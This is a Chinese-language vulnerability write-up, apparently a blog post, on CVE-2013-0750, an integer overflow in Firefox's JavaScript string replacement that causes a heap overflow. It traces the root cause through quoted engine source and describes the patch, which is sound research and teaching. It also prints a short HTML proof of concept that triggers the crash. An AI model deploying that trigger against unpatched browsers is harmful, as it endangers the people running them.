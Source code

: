 ```yaml
---
title: CVE-2013-0750 漏洞研究
toc: true
categories: Vulnerability Investigation
abbrlink: 19dd9d2a
date: 2024-12-12 17:29:44
updated: 2024-12-12 17:29:44
---
```


版本号小于 18.0 的 Firefox 中，JavaScript 引擎在解析字符串替换操作时存在整数溢出，导致分配国小的堆内存造成溢出进而导致任意代码执行

影响范围:

Mozilla Seamonkey 1.0 - 2.14
Mozilla Thunderbird 0.1 - 17.0
Mozilla Firefox 0.1 - 17.3
Suse Linux Enterprise Desktop 10/11
Suse Linux Enterprise Server 10/11
Suse Linux Enterprise Software Development KIT 10/11
Opensuse Opensuse 11.4
Opensuse Opensuse 12.2
Opensuse Opensuse 12.1
Redhat Enterprise Linux Server 5.0/6.0
Redhat Enterprise Linux Workstation 5.0/6.0
Redhat Enterprise Linux Desktop 5.0/6.0
Redhat Enterprise Linux EUS 5.9/6.3
Canonical Ubuntu Linux 11.10
Canonical Ubuntu Linux 12.10
Canonical Ubuntu Linux 12.04
Canonical Ubuntu Linux 10.04

<!--more-->

## 漏洞分析

Firefox 是开源的，可直接通过源码静态分析漏洞成因。以下分析以 [Firefox 17.0](http://releases.mozilla.org/pub/mozilla.org/firefox/releases/17.0/source/firefox-17.0.source.tar.bz2) 为例

调试运行源码编译并开启 enable-debug 选项的 Firefox 并打开样本后程序触发 Access Violation 异常而中断，由于有源码故通过栈回溯可发现函数调用链为 `ReplaceRegExpCallback` -> `DoReplace` -> `Vector`，可定位到 Crash Point 位于 `mozilla-release/js/src/jsstr.cpp` 的 2067 行，相关代码如下

```C++
/*
 * Precondition: |rdata.sb| already has necessary growth space reserved (as
 * derived from FindReplaceLength).
 */
static void
DoReplace(JSContext *cx, RegExpStatics *res, ReplaceData &rdata)
{
    JSLinearString *repstr = rdata.repstr;
    const jschar *cp;
    const jschar *bp = cp = repstr->chars();

    const jschar *dp = rdata.dollar;
    const jschar *ep = rdata.dollarEnd;
    for (; dp; dp = js_strchr_limit(dp, '$', ep)) {
        /* Move one of the constant portions of the replacement value. */
        size_t len = dp - cp;
        rdata.sb.infallibleAppend(cp, len);
        cp = dp;

        JSSubString sub;
        size_t skip;
        if (InterpretDollar(cx, res, dp, ep, rdata, &sub, &skip)) {
            len = sub.length;
            rdata.sb.infallibleAppend(sub.chars, len); //！ Crash Point
            cp += skip;
            dp += skip;
        } else {
            dp++;
        }
    }
    rdata.sb.infallibleAppend(cp, repstr->length() - (cp - bp));
}

static bool
ReplaceRegExpCallback(JSContext *cx, RegExpStatics *res, size_t count, void *p)
{
    ReplaceData &rdata = *static_cast<ReplaceData *>(p);

    rdata.calledBack = true;
    size_t leftoff = rdata.leftIndex;
    size_t leftlen = res->matchStart() - leftoff;
    rdata.leftIndex = res->matchLimit();

    size_t replen = 0;  /* silence 'unused' warning */
    if (!FindReplaceLength(cx, res, rdata, &replen))
        return false;

    size_t growth = leftlen + replen;
    if (!rdata.sb.reserve(rdata.sb.length() + growth))
        return false;

    JSLinearString &str = rdata.str->asLinear();  /* flattened for regexp */
    const jschar *left = str.chars() + leftoff;

    rdata.sb.infallibleAppend(left, leftlen); /* skipped-over portion of the search value */
    DoReplace(cx, res, rdata);
    return true;
}
```

Crash Point 处为 `rdata.sb` 的 `infallibleAppend` 方法调用，`DoReplace` 函数内未发现 `rdata.sb` 存在问题操作，污点分析到 `DoReplace` 的主调函数 `ReplaceRegExpCallback`，发现可疑操作 `rdata.sb.reserve(rdata.sb.length() + growth)`。在 `ReplaceRegExpCallback` 下断点进行动态分析发现执行到 `rdata.sb.reserve(rdata.sb.length() + growth)` 时 `growth` 为 0，很像整数溢出后的结果。对 `growth` 进行污点分析，溯源到 `FindReplaceLength` 函数，其相关代码如下

```C++
static bool
FindReplaceLength(JSContext *cx, RegExpStatics *res, ReplaceData &rdata, size_t *sizep)
{
    ...
    JSString *repstr = rdata.repstr;
    size_t replen = repstr->length();
    for (const jschar *dp = rdata.dollar, *ep = rdata.dollarEnd; dp;
         dp = js_strchr_limit(dp, '$', ep)) {
        JSSubString sub;
        size_t skip;
        if (InterpretDollar(cx, res, dp, ep, rdata, &sub, &skip)) {
            replen += sub.length - skip;
            dp += skip;
        } else {
            dp++;
        }
    }
    *sizep = replen;
    return true;
}
```

注意到可疑操作 `replen += sub.length - skip;`，在该处下条件断点进行动态分析。发现 `replen` 在循环中每次递增 0xFFFFE，在循环结束后溢出为 0。`ReplaceRegExpCallback` 中的 `growth` 变量因此变小，使得 `rdata.sb` 的 `reserve` 方法为字符串替换分配的堆块过小，并在 `DoReplace` 函数内进行字符串替换时因预留空间不足发生堆溢出，程序崩溃

## 漏洞利用

该漏洞尚未发现通用的漏洞利用方式，令人感慨

## Exploit 分析

POC 来自于 [Bugzilla](#reference)

```HTML
<html>
    <script type="text/javascript">
 
        function puff(x, n){
            while(x.length<n) x+=x;
            x = x.substring(0, n);
            return x;
        }
        var x = "1";
        var rep = "$1";
 
        x = puff(x, 1<<20);
        rep = puff(rep, 1<<16);
        y = x.replace(/(.+)/g, rep);
        alert(y.length);
 
    </script>
</html>
```

`puff` 函数会将字符串自我凭借到指定长度，POC 通过该函数创建了长度为 2^20 的字符串 `x` 和长度为 2^16 的字符串 `rep` 且 `rep` 内包含了大量与 `x` 相似的字串，随后通过正则表达式使用 `replace` 方法对字符串进行替换。由于字符串的长度惊人，故其得以触发上述整数溢出漏洞

## 漏洞修复

Patch 后 `replen` 变量类型从 `size_t` 变成了 `CheckedInt<uint32_t>`，该类定义在 CheckedInt.h 头文件中，提供了检测整数值是否在有效范围内的 `isValid` 方法。同时 `FindReplaceLength` 函数将在循环处理 `replen` 时对其大小进行判断确保 `replen` 为正整数递增，循环结束后会再调用 `isValid` 方法判断 `replen` 是否溢出，是则会报告溢出并返回失败

## Reference

[NVD - CVE-2013-0750](https://nvd.nist.gov/vuln/detail/CVE-2013-0750)
[CVE - CVE-2013-0750](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-0750)
[Github - CVE-2013-0750](https://github.com/advisories/GHSA-f77x-4q67-r7px)
[Bugzilla - String Replacement Heap Corruption Remote Code Execution Vulnerability (ZDI-CAN-1473)](https://bugzilla.mozilla.org/show_bug.cgi?id=805121)
[漏洞战争](https://book.douban.com/subject/26830238/)
